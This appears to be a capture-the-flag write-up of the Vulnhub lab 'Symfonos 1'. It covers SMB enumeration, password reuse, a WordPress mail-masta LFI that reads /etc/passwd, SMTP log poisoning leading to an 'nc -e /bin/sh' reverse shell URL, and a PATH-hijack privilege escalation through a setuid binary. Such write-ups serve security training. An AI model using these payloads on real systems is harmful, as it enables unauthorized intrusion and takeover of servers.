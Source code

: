 ```yaml
---
"title": "Vulnhub - Symfonos 1"
"date": 2020-03-08
"tags": ["wordpress", "easy", "log-poisoning", "smb", "path", "lfi", "setuid"]
"keywords": ["wordpress", "easy", "log-poisoning", "smb", "path", "lfi", "setuid"]
"author": "Ghostbyt3"
"description": "```"
"featured_image": "/img/symfonos1/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



Today, We are going to pwn Symfonos 1 by Zayotic from Vulnhub

## Description:

```
Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell. SHOULD work for both VMware and Virtualbox.

    Name: symfonos: 1
    Difficulty: Beginner
    Tested: VMware Workstation 15 Pro & VirtualBox 6.0
    DHCP Enabled

Note: You may need to update your host file for symfonos.local

```
Download Link : [https://www.vulnhub.com/entry/symfonos-1,322/](https://www.vulnhub.com/entry/symfonos-1,322/)


Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:42:7C:AD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m23s, deviation: 3h27m50s, median: 23s
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: [unknown](unknown), NetBIOS MAC: [unknown](unknown) (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2020-03-08T00:09:12-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-08T06:09:12
|_  start_date: N/A

```

## SMB:

I started with ``SMB`` we can use ``smbmap`` to see is there any files available.
>smbmap - SMB enumeration tool

![Untitled](/img/symfonos1/1.png)
```
-H HOST
              IP of host
```

So ``helios`` and ``anonymous`` are there and also ``attention.txt`` file.

There is a tool called ``smbclient`` which helps to access to the server.

>smbclient - ftp-like client to access SMB/CIFS resources on servers

First I tried with ``helios`` I can't login without password, So next is ``anonymous`` which I get logged in without password.
![Untitled](/img/symfonos1/2.png)[br/](br/)
Downloaded the ``attention.txt`` to my machine.

![Untitled](/img/symfonos1/3.png)[br/](br/)
This file contains a warning to the users to not use these password.

I tired again ``smbclient`` with ``helios`` with these 3 passwords.

> smbclient //192.168.1.101/helios -U helios

> -U, --user=USERNAME                       Set the network username

I logged in with ``qwerty`` and found 2 files, Downloaded them to my machine.
![Untitled](/img/symfonos1/4.png)

``research.txt``

```
Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.
```
``todo.txt``

```
1. Binge watch Dexter
2. Dance
3. Work on /h3l105
```
``todo.txt`` told us to work on ``/h3l105`` it may be a directory. So I checked it in the webpage.
![Untitled](/img/symfonos1/5.png)

So Its a ``Wordpress`` site. We can use ``wpscan`` to enumerate users and plugins.

Found 2 plugins, I searched for any exploits available for them.
>wpscan --url http://symfonos.local/h3l105/ --enumerate p

![Untitled](/img/symfonos1/6.png)[br/](br/)
Found this LFI 
> https://www.exploit-db.com/exploits/40290

> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

![Untitled](/img/symfonos1/7.png)

Now time to change LFI to RCE, we can do it by ``Log poisoning``so I tried to access ``/var/log/apache2/access.log`` but its not working.
We know port ``SMTP`` is open.

>The Simple Mail Transfer Protocol is a communication protocol for electronic mail transmission.

So the user might have a mail and I found [SMTP Log poisoning](https://liberty-shell.com/sec/2018/05/19/poisoning/)

Found users mail log ``/var/mail/helios``
![Untitled](/img/symfonos1/8.png)

By following the article, Payload is injected [br/](br/)
![Untitled](/img/symfonos1/9.png)

Now we can get reverse shell
> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc%20-e%20/bin/sh%20192.168.1.103%201234

![Untitled](/img/symfonos1/10.png)

## Privilege Escalation:

Uploaded my Enumeration Script to the machine and found a ``SETUID`` file.
![Untitled](/img/symfonos1/11.png)

When I run the file it prints the header of the webpage, and I did ``strings`` found ``curl`` is working and its path is not fully defined.

![Untitled](/img/symfonos1/12.png)

So I checked where is ``curl`` and its is in ``/usr/bin/curl``.[br/](br/)
![Untitled](/img/symfonos1/15.png)

So we can create a file to give us shell and placed it in ``/tmp`` and name it as ``curl`` and change the PATH to ``/tmp``.

This command will make the PATH to search in ``/tmp`` first
> export PATH=/tmp:$PATH

![Untitled](/img/symfonos1/13.png)

Once I execute the ``statuscheck`` the ``curl`` checks in ``/tmp`` first and it will make use of our file and give us root.
![Untitled](/img/symfonos1/14.png)

Rooted!!